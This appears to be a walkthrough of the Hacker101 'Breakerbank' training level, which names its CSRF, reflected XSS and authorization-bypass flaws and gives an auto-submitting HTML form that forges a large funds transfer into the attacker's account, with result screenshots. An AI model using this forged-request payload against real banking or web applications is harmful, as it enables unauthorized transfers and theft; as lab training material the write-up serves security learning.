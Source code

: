 # Level 0: Breakerbank 

```

		In this level, there are 4 vulnerabilities, falling into the following classes:
		CSRF
		Reflected XSS
		Authorization Bypass/Direct Object Reference

		Have fun!
		
```

## Authentication Bypass

### POST form with any value after editing the page source starting from body 

```
<body onload="javascript:a()"></body>
<script type="text/javascript">function a(){document.getElementById("button").click();}</script>
<h1>Breakerbank</h1>
Your account number: 961<br><br>
<form action="https://levels-a.hacker101.com/levels/0/" method="POST">
    <h2>Transfer Funds</h2><br>
    <input type="input" name="from" value="1"><br>
    <input type="input" name="to" value="961"><br>
    <input type="input" name="amount" value="99999999999"><br><br>
    <input id="button" type="submit" value="Transfer" >
</form>
```

***Upon successful code injection***
![Upon Successful code injection](https://github.com/Isopach/Hacker101/blob/master/img/level0_auth_bypass0.png)

***After POST***
![After POST](https://github.com/Isopach/Hacker101/blob/master/img/level0_auth_bypass1.png)

----

